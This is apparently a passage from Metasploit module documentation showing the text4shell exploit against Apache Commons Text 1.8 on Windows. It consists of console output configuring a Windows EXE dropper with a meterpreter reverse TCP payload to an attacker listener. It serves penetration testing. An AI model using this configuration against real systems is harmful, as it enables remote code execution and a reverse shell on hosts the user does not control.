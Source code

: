 ```
[*] Server stopped.

meterpreter >
```

### Apache Commons Text 1.8 on Windows 11 home JDK 14.0.2

Target: Windows EXE Dropper
```
msf exploit(multi/http/apache_commons_text4shell) > options

Module options (exploit/multi/http/apache_commons_text4shell):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   METHOD     GET                yes       The HTTP method to use (Accepted: GET, POST)
   PARAM      search             yes       The vulnerable parameter
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.160.1       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080               yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  text4shell/attack  yes       The target URI
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                        on all addresses.
   SRVPORT  5000             yes       The local port to listen on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.18.168.145   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows EXE Dropper



View the full module info with the info, or info -d command.

msf exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.18.168.145:4444
```